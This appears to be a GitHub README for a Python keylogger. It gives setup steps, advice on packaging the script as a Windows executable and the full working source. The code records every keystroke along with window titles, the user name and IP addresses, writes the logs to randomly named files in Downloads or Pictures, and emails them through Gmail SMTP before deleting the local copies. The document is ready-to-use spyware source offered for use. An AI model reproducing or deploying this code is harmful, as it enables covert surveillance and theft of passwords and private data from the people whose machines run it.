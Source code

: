 # KEY-LOGGER

### what is keylogger >
Keyloggers are a type of monitoring software designed to record keystrokes made by a user. One of the oldest forms of cyber threat, these keystroke loggers record the information you type into a website or application and send to back to a third party.
# ABOUT THIS KEYLOGGER >
This keylogger written in python3. 
# HOW TO USE THIS KEYLOGGER >
Install python3 (i recommend **python-3.8.6-amd64.exe** version) in your system . After instalation complete now install all module *(i.e requirement.txt)* using pip install.
Now you good to go
# CONVERT PY INTO EXECUTABLE >
** Use pyinstaller and auto-py-to-exe ** , auto-py-to-exe is  GUI based and pyinstaller is manual based.
# config file >
fromAddr = 'xxxxxx@gmail.com'
fromPswd = 'xxxxxxxxx'
# READ CODE
 
"#imports
from pynput.keyboard import Key,Listener
import win32gui
import os
import time
import requests
import socket
import random
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
import threading
import config


datetime = time.ctime(time.time())
user = os.path.expanduser('~').split('\\')[2]
publicIP = requests.get('https://api.ipify.org/').text
privateIP = socket.gethostbyname(socket.gethostname())

msg = f'[START OF LOGS]\n  *~ Date/Time: {datetime}\n  *~ User-Profile: {user}\n  *~ Public-IP: {publicIP}\n  *~ Private-IP: {privateIP}\n\n'
logged_data = []
logged_data.append(msg)

old_app = ''
delete_file = []


def on_press(key):
	global old_app

	new_app = win32gui.GetWindowText(win32gui.GetForegroundWindow())

	if new_app == 'Cortana':
		new_app = 'Windows Start Menu'
	else:
		pass
	
	
	if new_app != old_app and new_app != '':
		logged_data.append(f'[{datetime}] ~ {new_app}\n')
		old_app = new_app
	else:
		pass


	substitution = ['Key.enter', '[ENTER]\n', 'Key.backspace', '[BACKSPACE]', 'Key.space', ' ',
	'Key.alt_l', '[ALT]', 'Key.tab', '[TAB]', 'Key.delete', '[DEL]', 'Key.ctrl_l', '[CTRL]', 
	'Key.left', '[LEFT ARROW]', 'Key.right', '[RIGHT ARROW]', 'Key.shift', '[SHIFT]', '\\x13', 
	'[CTRL-S]', '\\x17', '[CTRL-W]', 'Key.caps_lock', '[CAPS LK]', '\\x01', '[CTRL-A]', 'Key.cmd', 
	'[WINDOWS KEY]', 'Key.print_screen', '[PRNT SCR]', '\\x03', '[CTRL-C]', '\\x16', '[CTRL-V]']

	key = str(key).strip('\'')
	if key in substitution:
		logged_data.append(substitution[substitution.index(key)+1])
	else:
		logged_data.append(key)


def write_file(count):
	one = os.path.expanduser('~') + '/Downloads/'
	two = os.path.expanduser('~') + '/Pictures/'
	#three = 'C:/'
	list = [one,two]

	filepath = random.choice(list)
	filename = str(count) + 'I' + str(random.randint(1000000,9999999)) + '.txt'
	file = filepath + filename
	delete_file.append(file)


	with open(file,'w') as fp:
		fp.write(''.join(logged_data))
	print('written all good')


def send_logs():
	count = 0

	fromAddr = config.fromAddr
	fromPswd = config.fromPswd
	toAddr = fromAddr

	MIN = 10
	SECONDS = 60
	#time.sleep(MIN * SECONDS) # every 10 mins write file/send log
	time.sleep(30) # for debugging ~ yes program works :)
	while True:
		if len(logged_data) > 1:
			try:
				write_file(count)

				subject = f'[{user}] ~ {count}'

				msg = MIMEMultipart()
				msg['From'] = fromAddr
				msg['To'] = toAddr
				msg['Subject'] = subject
				body = 'testing'
				msg.attach(MIMEText(body,'plain'))

				attachment = open(delete_file[0],'rb')
				print('attachment')

				filename = delete_file[0].split('/')[2]

				part = MIMEBase('application','octect-stream')
				part.set_payload((attachment).read())
				encoders.encode_base64(part)
				part.add_header('content-disposition','attachment;filename='+str(filename))
				msg.attach(part)

				text = msg.as_string()
				print('test msg.as_string')

				s = smtplib.SMTP('smtp.gmail.com',587)
				s.ehlo()
				s.starttls()
				print('starttls')
				s.ehlo()
				s.login(fromAddr,fromPswd)
				s.sendmail(fromAddr,toAddr,text)
				print('sent mail')
				attachment.close()
				s.close()

				os.remove(delete_file[0])
				del logged_data[1:]
				del delete_file[0:]
				print('delete data/files')

				count += 1

			except Exception as errorString:
				print('[!] send_logs // Error.. ~ %s' % (errorString))
				pass




if __name__=='__main__':
	T1 = threading.Thread(target=send_logs)
	T1.start()

	with Listener(on_press=on_press) as listener:
		listener.join()"

